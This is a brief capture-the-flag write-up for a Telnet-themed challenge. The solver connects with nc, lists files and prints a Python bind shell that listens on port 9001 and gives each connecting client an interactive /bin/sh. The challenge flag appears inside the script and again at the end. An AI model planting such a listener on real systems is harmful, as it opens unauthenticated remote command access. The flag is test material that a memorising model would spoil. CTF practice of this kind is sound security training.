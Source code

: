 ## Task :
Legends spoke of a long-forgotten era when Telnet was once a common gateway into the digital world, allowing users to access remote systems and execute commands. However, as time passed, its usage faded due to security concerns, and the portals were shut down or hidden away to protect the digital realm from malicious intent.

## Points : 100

## Solution:
connect to telnet using
```
nc website port-address
```

```
ls
```

found a python file:
```
cat bindshell.py
```

```
import os
import socket

HOST = '0.0.0.0'
PORT = 9001

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((HOST, PORT))
s.listen(1)

while True:
    conn, addr = s.accept()
    pid = os.fork()
    if pid == 0:
        os.dup2(conn.fileno(), 0)
        os.dup2(conn.fileno(), 1)
        os.dup2(conn.fileno(), 2)
        os.execve('/bin/sh', ['/bin/sh', '-i'], {'PATH': '/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'})

# KPMG_CTF{38748f1a026ae36d35de31d8aebd1dea}
```

```
KPMG_CTF{38748f1a026ae36d35de31d8aebd1dea}
```